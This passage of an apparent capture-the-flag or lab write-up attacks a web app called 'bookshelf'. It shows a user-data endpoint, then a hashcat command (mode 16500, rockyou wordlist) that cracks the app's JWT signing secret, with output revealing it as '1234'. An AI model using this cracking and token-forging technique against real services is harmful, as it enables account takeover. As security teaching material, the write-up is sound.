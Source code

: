 I grep also how the admin payload is being crafted and search for its is

![Image](/assets/img/uploads/20231002064313.png)

When I send a GET request to `/base/users/{id}` it shows me my ID and other data.
![Image](/assets/img/uploads/20231002064337.png)

Then I tried to crack the secret key to verify it using `hashcat`

```bash
$ sudo hashcat -a 0 -m 16500 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY5NjgyNTQ  
5NywiaWF0IjoxNjk2MjIwNjk3LCJ1c2VySWQiOjYsImVtYWlsIjoicm9vdEBoYWNrZXIuY29tIn0.Mot1P7RBc6VgDT-t1hjcHbgFyaMtQlNSmxu3Ui6wapg' /opt/wordl  
ist/rockyou.txt  --show  
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTY5NjgyNTQ5NywiaWF0IjoxNjk2MjIwNjk3LCJ1c2V  
ySWQiOjYsImVtYWlsIjoicm9vdEBoYWNrZXIuY29tIn0.Mot1P7RBc6VgDT-t1hjcHbgFyaMtQlNSmxu3Ui6wapg:1234
```

Looking further in the source code, I notice that a default user and admin is created.
